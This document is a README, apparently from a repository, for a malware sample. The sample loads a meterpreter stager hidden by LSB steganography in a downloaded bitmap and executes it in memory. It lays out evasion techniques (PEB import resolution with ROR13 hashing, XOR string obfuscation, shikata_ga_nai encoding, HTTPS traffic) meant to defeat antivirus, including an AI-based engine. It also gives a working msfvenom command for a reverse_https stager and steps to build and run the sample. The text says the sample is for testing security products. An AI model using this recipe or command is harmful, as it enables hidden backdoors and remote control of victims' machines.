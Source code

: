 # Description
This is a test malware sample used to load LSB encoded code from the internet. This specific sample template works with LSB encoded bitmap files to extract a stager payload for meterpreter.

The goal is to demonstrate a means of loading malicious code onto a system
without ever touching disk. Additionally, the code leverages a method of
loading require API functionality via accessing the loaded modules directly
from the PEB (Process Execution Block).

This method allows the code to gain access to the Kernel32.dll functions in
order to load additionaly libraries using the LoadLibraryA exported function.
All of the functions loaded leverage a ROR13 hashing technique to avoid any
strings from showing up during static analysis. This makes it much more difficult
for an analysis system or signature detection system to determine the malicious
nature of the binary.

Any other strings that are required in raw form are encoded with a simple XOR
and offset. These strings will no longer be visible to static analysis, but can
easily be decoded at run time to generate required information (URLs, user agents,
etc).

Finally, since LSB steganography is leveraged to download the backdoor, there
are minimal malicious artifacts in the core binary that would allow any detection
from making a determination that this is malicious. The only point when it would
be possible to tell is after the meterpreter shell has been extracted from the
bitmap and loaded directly into memory. The stager payload leverages the executable
encoder shikata-ga-nai to obfuscate the staged payload that is retrieved from the
LSB encoded bitmap file. All communicate done from the meterpreter stager and shell
is done over HTTPS (SSL/TLS) to avoid network based indicators from tripping
security tools.

1. Generating the meterpreter stager:
  `msfvenom -p windows/meterpreter/reverse_https LHOST=10.248.189.74 LPORT=443 -b '\x00\xff' -e x86/shikata_ga_nai -i 3 -f raw`
2. Run the stego encoder with the binary output from above and a desired bitmap
3. Host the bitmap on some HTTP site
4. Set the desired target URL for the bitmap in Utils.h (LSB_TARGET_URL (see HideStrings))
5. Compile and run

Note:
  This is a sample to test malware detection capabilities on security software. The
  provided code was designed to bypass Cylance's AI based detection engine.

Summary of Tactics implemented:

  1. ROR13 hashing - Manually resolving imports
    * https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/
    * https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html
  2. String Obfuscation - XOR with Offset
  3. LSB Steganography - encoding malware into benign picture file (used when downloading the meterpreter stage)
  4. In-memory execution - allocates space and launches payload directly from memory (never touch disk)
  5. SSL - communication over SSL to avoid network detection

--------

Future possibilities:

  1. Staged-Encoding - encodes the staged payload to look benign on the wire
  2. Unhooking/remapping binaries
